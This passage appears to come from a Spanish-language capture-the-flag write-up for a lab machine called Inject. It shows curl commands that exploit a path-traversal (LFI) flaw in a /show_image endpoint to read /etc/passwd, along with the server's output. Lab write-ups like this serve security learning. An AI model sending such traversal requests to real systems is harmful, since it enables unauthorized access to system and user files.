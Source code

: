 ![](../assets/images/Inject/web5.png)

- Realizamos una petición get con curl para ver la respuesta :

```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=test.jpg" | jq
{
  "timestamp": "2024-02-22T03:55:06.646+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "URL [file:/var/www/WebApp/src/main/uploads/test.jpg] cannot be resolved in the file system for checking its content length",
  "path": "/show_image"
}
                                                                                                                                           
```

- En message vemos una ruta, asi que vamos a intentar cargar archivos del sistema devolviéndonos varias rutas atrás.

![](../assets/images/Inject/web6.png)
- Efectivamente tenemos un LFI y un directory listing. 
- Veamos lo usuario existentes: 
```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../etc/passwd" | grep "sh$"
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
```